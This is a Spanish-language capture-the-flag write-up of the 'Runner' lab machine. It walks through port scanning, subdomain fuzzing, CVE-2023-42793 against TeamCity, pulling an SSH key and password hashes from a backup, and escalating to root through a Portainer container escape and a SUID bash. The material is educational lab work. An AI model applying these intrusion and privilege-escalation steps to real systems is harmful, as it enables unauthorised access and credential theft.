


----------------


Runner es una máquina de dificultad media en la que generé una lista personalizada de palabras clave para realizar fuzzing de subdominios. Una vez identificado el subdominio, utilicé la vulnerabilidad CVE-2023-42793 para crear un nuevo usuario administrador y acceder al panel de administración. Aproveché la funcionalidad de backup para obtener una clave id_rsa, lo que me permitió conectarme vía SSH. Finalmente, escalé privilegios a root mediante el uso de Portainer.

---------------
# [](#header-1)Reconocimiento
Primero comienzo con nmap para saber que puertos se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.13 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 16:49 -03
Initiating SYN Stealth Scan at 16:49
Scanning 10.10.11.13 [65535 ports]
Discovered open port 22/tcp on 10.10.11.13
Discovered open port 80/tcp on 10.10.11.13
Discovered open port 8000/tcp on 10.10.11.13
Completed SYN Stealth Scan at 16:49, 15.53s elapsed (65535 total ports)
Nmap scan report for 10.10.11.13
Host is up, received user-set (0.20s latency).
Scanned at 2024-08-23 16:49:24 -03 for 16s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 63
80/tcp   open  http     syn-ack ttl 63
8000/tcp open  http-alt syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```
- *-p-*: escanear todo el rango total de puertos(65535)
- *--open*:Reportar puertos abiertos, ya que los puertos pueden estar cerrado o filtrados.
- *-sS*:TCP SYN port scan, este es un modo para ir de forma rápido agresivo a la vez que sigiloso
- *--min-rate 5000*:Le indicamos que queremos que nos tramite paquetes nomas lento que 5000 paquete por segundo
- *-vvv*: Triple vervose para que puerto que nos detecte abierto nos lo vaya reportando sobre la marcha
- *-n*: Para no aplicar resolución DNS
- *-Pn*: Omitir la prueba de ping y simplemente escanea todos los hosts de destino proporcionados
- *-oG*:Para que nos cree un archivo grepeable, para poder filtrar por lo que nos interese mediante el empleo de expresiones regulares 
Veo que tiene el puerto 22, 80, y 8000 por lo tanto voy a hacer un escaneo mas exhaustivo sobre estos puertos

```bash
❯ nmap -p22,80,8000 -sCV 10.10.11.13 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 16:53 -03
Nmap scan report for 10.10.11.13
Host is up (0.21s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://runner.htb/
8000/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- *-p22,80*: Le indicamos que queremos escanear los puerto 22,80 y 8000
- *sCV*: Le indicamos con que queremos lanzar un script básicos de reconocimiento y, detectar la versión y servicios que corren para los puertos 20,80 y 8000
- *oN*: Exportarlo en forma normal tal y como nos lo reporta Nmap

Veo que por el puerto 22 esta `SSH` que nos reporta el condéname(8.9p1 Ubuntu 3ubuntu0.6) de Ubuntu y gracias a esto puedo descubrir que estamos frente a un `Ubuntu jammy`, mas de eso por aquí no puedo hacer nada, en el puerto 80 veo que hay una pagina web que nos redirige a `runner.htb` por lo tanto a esto lo introduzco en el `/etc/hosts` porque de primera nuestra maquina no sabe lo que es `http://runer.htb`



y veo que en el puerto 8000 esta corriendo [nagios](https://es.wikipedia.org/wiki/Nagios).
Antes de ver en mi navegador la pagina web del puerto 80 y el Nagios por el puerto 8000, voy ver que tecnologías corren por detrás de la pagina web esto lo hago con `whatweb`
```bash
❯ whatweb http://runner.htb
http://runner.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sales@runner.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.13], JQuery[3.5.1], PoweredBy[TeamCity!], Script, Title[Runner - CI/CD Specialists], X-UA-Compatible[IE=edge], nginx[1.18.0]
```
No veo nada interesante por lo que voy a ver que contiene este pagina


Veo que es un pagina estática, si hago hovering  por, home,abaout y services puedo ver que todos nos lleva dentro de la misma pagina, por lo tanto con gobuster intentare hacer un descubrimiento de rutas y directorios existentes
```bash
❯ gobuster dir -u http://runner.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://runner.htb/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://runner.htb/assets/]
```
veo que no me reporta nada interesante por lo que voy intentar fuzzear por subdominios, como primero vi que me daba los mismo resultados con todos los subdominios de la lista decidí ocultar las respuestas que tuvieran 154 caracteres y no obtengo ningún subdominio 
```bash
❯ wfuzz -c  --hh=154 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -H "Host: FUZZ.runner.htb" http://runner.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://runner.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================


Total time: 0
Processed Requests: 114441
Filtered Requests: 114441
Requests/sec.: 0
```
En este punto procedí a ver que había por el puerto 8000 


Pero veo que no hay nada nos da un `Not Found(404)`, volví a fuzzear por el puerto intentando descubrir si no existían archivos con extensiones php,html,txt pero tampoco encontré nada interesante.
Aquí lo que se me ocurrió es crear una lista con las palabras claves de la web, entonces utilice `cewl` entonces para usarlo se le pasa la url y donde queremos depositar nuestro output
```bash
❯ cewl http://runner.htb/ > List.txt
❯ cat List.txt | wc -l
286
```
Nos crea una lista con 286 y con esta lista intentare fuzzear por subdominios 
```bash
❯ wfuzz -c --hh=154 -w List.txt -t 200 -H "Host: FUZZ.runner.htb" http://runner.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://runner.htb/
Total requests: 286

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================                                                
000000135:   401        1 L      9 W        66 Ch       "TeamCity"                                                     

Total time: 0
Processed Requests: 286
Filtered Requests: 284
Requests/sec.: 0
```
Con esto conseguí el subdominio que es `teamcity` lo agrego al `/etc/hosts`


voy a ver que hay en este subdominio, veo una pagina de login de [TeamCity](https://en.wikipedia.org/wiki/TeamCity) y por debajo puedo ver su versión, primero intente con credenciales por defecto como admin:admin, guest:guest pero no me dio resultado entonces procedí a buscar si existe alguna vulnerabilidad para esta versión de TeamCity ya que no cuento con credenciales validas  


Veo que existe un exploit(CVE-2023-42793-RCE) para esta versión, el cual intenta crear un nuevo usuario administrador veré si esto funciona 


------------------------
### [](#header-3)User
Vemos que para usar el exploit solo debemos de ingresar la URL




Con esto nos crea un nuevo usuario y ya puedo ingresar al panel de admin


Al ver que se podía realizar un backup , con lo cual realice un backup para ver que contenía


Descargo este backup para poder verlo cómodamente, en `/database_dump` en archivo `users` veo los usuarios john y matthew, con los hashes de sus contraseña


y en la ruta `/config/projects/AllProjects/pluginData/ssh_keys` encuentro un `id_rsa`


Primero intentare crackear los hashes


Solo se puede crackear el hash de matthew, por lo tanto con la contraseña intente por lo que intente conectarme con ssh pero al parecer estas contraseña no funciona para concertarse por ssh, por lo que procedo a probar con el id_rsa y ver de que usuario es, primero le doy el permiso 600, y vemos que esta clave id_rsa es del usuario john


por lo tanto ya podemos ver la flag del usuario
```bash
john@runner:~$ cat user.txt 
******************b990e
```
### [](#header-3) Root
Veo que internamente esta corriendo varios puertos
```bash
john@runner:~$ ss -ntplu
Netid       State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process       
udp         UNCONN       0            0                  127.0.0.53%lo:53                      0.0.0.0:*                        
udp         UNCONN       0            0                        0.0.0.0:68                      0.0.0.0:*                        
tcp         LISTEN       0            128                      0.0.0.0:22                      0.0.0.0:*                        
tcp         LISTEN       0            511                      0.0.0.0:80                      0.0.0.0:*                        
tcp         LISTEN       0            4096               127.0.0.53%lo:53                      0.0.0.0:*                        
tcp         LISTEN       0            4096                   127.0.0.1:5005                    0.0.0.0:*                        
tcp         LISTEN       0            4096                   127.0.0.1:9000                    0.0.0.0:*                        
tcp         LISTEN       0            4096                   127.0.0.1:9443                    0.0.0.0:*                        
tcp         LISTEN       0            4096                   127.0.0.1:8111                    0.0.0.0:*                        
tcp         LISTEN       0            128                         [::]:22                         [::]:*                        
tcp         LISTEN       0            511                         [::]:80                         [::]:*                        
tcp         LISTEN       0            4096                           *:8000                          *:*   
```
En al hacer un curl a estos puertos veo algo interesante es el puerto 9000, veo Portainer por lo cual podría intentar autenticarme y ver si soy capaz de crear un contenedor para escalar a root 


- Nota: Portainer es una herramienta web open-source que permite gestionar contenedores Docker, permite administrar contenedores de forma remota o local.
Por lo tanto realizo un `port forwarding` con SSH
```bash
ssh -L 9000:localhost:9000 john@10.10.11.13 -i id_rsa 
```
Lo agrego en `FoxyProxy` para poder llegar a ver la pagina


Veo que hay un panel de login por lo que intentare con las credenciales de matthew y ver si esto funciona, en esta versión podemos aprovecharnos de lo que nos explica en el [CVE-2024-2162](https://nitroc.org/en/posts/cve-2024-21626-illustrated/?source=post_page-----103250a9acd3--------------------------------#exploit-via-docker-exec)


Nos logramos autenticar ahora y vemos que tiene dos imágenes creadas, por lo tanto nos aprovecharemos de la imagen `teamcity:latest` para crear un nuevo contenedor


Vamos a crear un nuevo contenedor


Le ponemos el nombre del contenedor y le indicamos la imagen `teamcity:latest`


Le indico para poder tener una consola totalmente interactiva, y nos vamos a aprovechar del directorio de trabajo indicándole `/proc/self/fd/8`, esto es parecido a jugar con monturas


Una vez creado nos vamos a otorgar una consola como root


Una vez nos otorga la consola podemos ir al directorio de root, con esto podemos leer la flag de root


Si queremos obtener el acceso a root desde nuestra maquina victima podemos ir un directorio atrás, ir a `/bin` y otorgarle permisos SUID a la bash, con lo cual nos cambia los permisos en la maquina vicitima


![[Pasted image 20240823213112.png]](../assets/images-Runner/Runner28.png)

aplicamos el comando `bash -p` y podremos visualizar la flag de root
```bash
john@runner:~$ bash -p
bash-5.1# whoami
root
bash-5.1# ls
user.txt
bash-5.1# cd /root
bash-5.1# ls
docker_clean.sh  initial_state.txt  monitor.sh	root.txt
bash-5.1# cat root.txt 
******************41ac5
bash-5.1# 
```


